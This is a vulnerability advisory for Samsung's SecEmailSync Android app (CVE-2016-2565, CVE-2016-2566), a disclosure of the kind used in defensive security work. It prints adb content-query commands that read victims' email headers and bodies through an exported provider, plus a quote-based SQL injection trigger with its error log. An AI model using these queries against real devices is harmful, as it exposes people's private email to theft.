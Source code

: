 # Exposed provider and SQLi in SecEmailSync #

* _Authors_: Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari)) and Aristide Fattori ([@joystick](https://twitter.com/joystick))
* _Samsung ID_: SVE-2015-5081
* _ID_: CVE-2016-2565 and CVE-2016-2566
* _Notification date_: 29/10/2015
* _Release date_: 02/02/2016

We identified some vulnerabilities and insecure settings in
Samsung proprietary e-mail application, `SecEmailSync`, distributed with recent
Android-based Samsung phones. These vulnerabilities can be exploited by any
local application to access a victim's e-mail messages. The attacker App does
not require any specific privilege, so the attack is quite stealthy.

## Exposed content provider ##

Recent Samsung Android phones include a proprietary application, named
`SecEmailSync` (package `com.samsung.android.email.sync`). This App exposes
multiple services and content providers, some of which are accessible by any
unprivileged local applications.

Among these, we focused on the content provider `.homecard.OtherProvider`. The
relevant manifest entry follows:

	<provider android:authorities="com.samsung.android.email.otherprovider" android:exported="true"
	android:name="com.samsung.android.email.sync.homecard.OtherProvider"/>

As can be seen from this snippet, this provider is exported and can thus be queried
by any other local application, without requiring any specific privilege (CVE-2016-2565).

We investigated the inner workings of this provider and detected it can be
abused to access e-mail messages handled by Samsung proprietary application
(`SecEmail`).

As an example, the following ADB command demonstrates how it is possible to
query the content provider to extract the e-mails sent by a given sender (in
this case, `bobby@mysite.it`):

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/header --where bobby@mysite.it
	Row: 0 timeStamp=1446119267000, subject=Test email, _id=1997

URI `content://com.samsung.android.email.otherprovider/body` also gives access
to the e-mail body:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where bobby@mysite.it
	Row: 0 htmlContent=NULL, textContent=Email body

It is not even required to know the e-mail address of a valid sender, as
passing "`@`" as the e-mail address would suffice to match all the e-mails
available.

## SQL injection ##

Even worse, the very same content provider is affected by a SQL injection
(SQLi) issue (CVE-2016-2566). As an example, the following query triggers the vulnerability:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where "test@me'"

When this query is processed, the following messages are recorded in the
Android logs (logs have been truncated due to space contraints):

	E/DatabaseUtils( 5454): android.database.sqlite.SQLiteException: unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454): Error Code : 1 (SQLITE_ERROR)
	E/DatabaseUtils( 5454): Caused By : SQL(query) error or missing database.
	E/DatabaseUtils( 5454):		(unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10)
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454):		at android.database.sqlite.SQLiteConnection.nativePrepareStatement(Native Method)
	....
	E/DatabaseUtils( 5454):		at com.samsung.android.email.provider.provider.database.AbsEmailProvider.query(AbsEmailProvider.java:1986)

The SQLi can be obviously exploited to extract arbitrary data from the SQL
tables managed by the content provider.

## Affected devices ##

We confirm these issues affect the following device models. Other models and
firmware versions are probably affected as well, but they were not tested.

* SM-G920F, build G920FXXU2COH2 (Galaxy S6)

The vulnerabilities discussed in this advisory have already been patched by
Samsung, in their January Android Security Update
([SMR-JAN-2016](http://security.samsungmobile.com/smrupdate.html#SMR-JAN-2016)).
